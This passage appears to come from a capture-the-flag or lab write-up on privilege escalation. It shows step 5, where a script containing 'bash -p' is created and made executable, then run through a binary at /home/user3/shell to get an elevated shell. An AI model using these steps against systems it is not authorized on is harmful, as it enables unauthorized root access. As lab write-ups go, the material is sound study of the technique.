 ![writeup.privesc.steps.4.1](./screenshot08.png)  

![writeup.privesc.steps.4.2](./screenshot08a.png)  

5\. We find that the `/home/user3/shell` file requries a `.script.sh` file and needs it to have executable permissions. We create this file and test out the `shell` file which gives us an elevated shell:  
``` {.python .numberLines}
echo -en "bash -p" >>./.script.sh
chmod +x ./.script.sh
/home/user3/shell

```
